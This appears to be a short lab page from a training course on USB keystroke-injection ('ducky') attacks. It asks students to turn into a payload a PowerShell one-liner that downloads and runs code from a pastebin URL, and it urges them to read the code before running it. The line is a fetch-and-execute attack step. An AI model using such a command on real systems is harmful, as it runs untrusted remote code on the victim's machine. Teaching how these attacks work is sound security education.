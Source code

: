 ```yaml
---
layout: default
title: Encore!(2)
nav_order: 11
---
```


In our labs, we sent data to pastebin. But what if we used pastebin (or github) to host our malicious code?!
Duckify this powershell command:
```powershell
iex((iwr http://pastebin.com/raw.php?i=sWacjDpa).content)
```
But before you do. 

PLEASE LOOK AT THE CODE AND UNDERSTAND IT!

Always be vigilant!
